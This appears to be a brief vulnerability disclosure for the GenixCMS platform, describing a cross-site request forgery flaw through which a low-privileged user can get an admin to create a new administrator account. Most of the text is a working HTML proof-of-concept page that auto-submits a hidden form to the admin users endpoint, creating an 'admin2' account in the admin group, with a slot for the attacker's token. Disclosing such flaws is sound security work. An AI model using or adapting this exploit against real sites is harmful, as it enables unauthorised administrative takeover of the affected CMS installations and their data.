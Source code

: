 The GenixCMS platform is vulnerable to an exploit that allows a low privileged user to create an admin account by getting an admin
to visit a crafted page.

Vulnerable request POC:

````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://HOSTNAME/genix/gxadmin/index.php?page=users" method="POST">

      <input type="hidden" name="userid" value="admin2" />

      <input type="hidden" name="pass1" value="admin2" />

      <input type="hidden" name="pass2" value="admin2" />

      <input type="hidden" name="email" value="admin3&#64;test&#46;com" />

      <input type="hidden" name="group" value="0" />

      <input type="hidden" name="adduser" value="" />

      <input type="hidden" name="token" value="INSERTLOWPRIVTOKENHERE" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>


````
